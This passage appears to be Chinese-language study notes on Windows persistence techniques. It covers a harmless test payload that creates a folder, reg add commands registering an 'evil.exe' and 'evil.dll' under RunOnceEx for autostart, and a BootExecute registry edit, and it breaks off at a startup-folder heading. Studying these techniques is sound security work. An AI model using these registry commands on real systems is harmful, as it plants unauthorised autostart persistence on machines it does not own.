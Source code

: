 ### 3、权限维持选项

在测试权限维持的过程中，一些需要用到dll进行权限维持的地方，无法进行下去，很可惜现在还不会C语言，无法编写测试dll。如果希望在Windows安全研究的更深，确实需要先对C有一定的研究

一个简单的payload eval.exe，如果被执行了会在D盘新建一个hack文件夹

```
## eval.exe

#include "stdlib.h"

void main()
{
	system("mkdir d:\\hack");
}
```

#### 1、RunOnceEx

启动时序：用户登录时加载。&#x20;

可以启动exe、dll&#x20;

注册表位置：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
```

使用格式参考：

```
# EXE 自启动 

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v 1 /d "D:\evil.exe" 

# DLL 自启动 

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "D:\evil.dll"
```

#### 2、BootExecute

启动时序：在驱动程序、系统核心加载后，由SMSS.exe进行加载。&#x20;

注册表位置：

```
HKLM\SYSTEM\ControlSet002\Control\Session Manager\BootExecute
```

默认值：autocheck autochk \*

案例：

将值修改为：autocheck autoche \*

[https://attack.mitre.org/software/S0397/](https://attack.mitre.org/software/S0397/)&#x20;

#### 3、Startup folder
